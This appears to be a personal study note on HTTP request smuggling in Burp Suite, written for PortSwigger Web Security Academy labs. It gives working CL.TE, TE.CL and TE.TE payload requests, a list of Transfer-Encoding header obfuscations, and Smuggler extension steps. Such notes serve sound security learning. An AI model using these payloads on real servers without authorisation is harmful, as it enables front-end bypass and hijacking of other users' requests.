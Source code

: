 # Switch Burp Repeater to HTTP/1
Manually switch protocols in **Burp Repeater -> Inspector Panel -> Request attributes section**
# Performing the Attack
## Preparing Burp for Request Smuggling
1. Find request for root page and send to Repeater
2. Downgrade HTTP protocol to HTTP/1.1 (Inspector tab on right)
3. Change Request Method to POST by right-clicking
4. Disable automatic update of Content-Length (settings icon next to 'Send')
5. Show non-printable characters (option at top-right of Request section)
6. Send the request normally to ensure it is properly working

## Detecting the Vulnerability
![Pasted image 20250501090652.png](Screenshots/Pasted%20image%2020250501090652.png)
## Confirming the Vulnerability
![Pasted image 20250501090918.png](Screenshots/Pasted%20image%2020250501090918.png)
- Send the request twice, and the first should be status 200, and second status 403 forbidden
- Ensure there are two `\r\n` after the end of the second request
### CL.TE Example
```
POST / HTTP/1.1 
Host: host.website.here.com
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 6 
Transfer-Encoding: chunked 

0 

G
```
- Send it twice
- The second response should say: `Unrecognized method GPOST`.
### TE.CL Example
```
POST / HTTP/1.1

Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c

GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1

0


```
- Ensure `\r\n\` is showing twice after the final `0`
- Send it twice and the second response should say: `Unrecognized method GPOST`.
## TE.TE
There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space] Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

Transfer-Encoding: chunked
Transfer-Encoding: cow
```
- Necessary to find some variation of the `Transfer-Encoding` header such that only one of the front-end or back-end servers processes it, while the other server ignores it.
- Depending on whether it is the front-end or the back-end server that can be induced not to process the obfuscated `Transfer-Encoding` header, the remainder of the attack will take the same form as for the CL.TE or TE.CL
- Ensure there are two `\r\n` after the `0` of the second request

Example Request to send a `GPOST` request:
```
POST / HTTP/1.1
Host: 0a9900a6047482318574918700b40052.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
# Burp Smuggling Extension
For more advanced use watch the [video](https://portswigger.net/research/http-desync-attacks), and check out the [documentation](https://github.com/PortSwigger/http-request-smuggler).
1. Right click on a request and click 'Launch Smuggle probe'
2. Ensure 'permute: badsetupLF' is checked
3. Go to 'Target' tab of Burp (at the top)
4. Select the site you are querying
5. Go to the 'Contents' section of this site to see all requests
6. Go to the 'Issues' section to view any issues
7. Select 'Request 1' to see the issue with the first request
8. Right-click the request and select 'Smuggle attack'
9. A new window will pop up. If you scroll down, you'll see the `GET /hopefull404 HTTP/1.1` request
10. Select 'Attack' button at the bottom
11. Observe the 404 error, and a 200 status request previously with the payload in the data, click 'Halt' at the bottom to pause, then 'Configure' to exit
12. We can go back to the window where we saw the `GET` request section, and we can replace that with any other request we want
	- We can intercept other `GET` requests from other pages, go back to our smuggle request, and paste other `GET` requests into this section (only paste the `GET` and `HOST` section, and keep the `X-ignore` header when pasting)
13. We click 'Attack' again, and we can observe the request was successful